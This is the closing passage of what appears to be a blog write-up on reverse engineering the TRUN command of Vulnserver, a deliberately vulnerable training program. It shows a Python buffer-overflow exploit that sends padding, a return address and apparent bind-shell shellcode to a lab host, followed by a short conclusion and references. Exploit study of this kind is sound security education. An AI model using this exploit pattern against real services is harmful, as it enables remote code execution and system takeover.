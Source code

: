 ```python
bind += b"\xfe\x6d\xda\xa2"

buf = b"TRUN ."
buf += b"A" * 2006
buf += pack("<L", 0x625011af)
buf += bind

def main():

    server = "192.168.42.173"
    port = 9999

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))

    s.send(buf)

    s.close()

    print("[+] Packet sent.")
    sys.exit(0)

if __name__ == "__main__":
    main()
```

---
# Conclusion
---
Reverse engineering can be difficult, and quite tedious and time-consuming, but it is much more powerful than fuzzing, and tons of information can be revealed about the inner workings of an application. I personally find it to be fun and enjoyable and I really liked going through this exercise. Expect more posts like these in the future as I reverse engineer other vulnserver commands!

---
# References
---
[Vulnserver](https://github.com/stephenbradshaw/vulnserver)
[WinDbg Dark Theme](https://github.com/nextco/windbg-readable-theme)

[^narly]: https://github.com/d0c-s4vage/narly/tree/master/narly
